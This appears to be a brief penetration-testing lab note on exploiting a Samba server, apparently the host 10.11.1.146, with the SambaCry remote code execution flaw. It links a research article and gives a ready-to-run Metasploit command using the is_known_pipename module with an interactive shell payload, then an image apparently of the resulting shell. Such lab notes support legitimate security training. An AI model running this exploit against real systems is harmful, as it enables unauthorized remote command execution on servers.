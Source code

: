 https://medium.com/@lucideus/sambacry-rce-exploit-lucideus-research-3a3e5bd9e17c

## metasploit
```
msfconsole -q -x "use linux/samba/is_known_pipename; set RHOST 10.11.1.146; set SMB_SHARE_NAME SusiShare; set PAYLOAD cmd/unix/interact;run"
```

![[susie-shell.png]]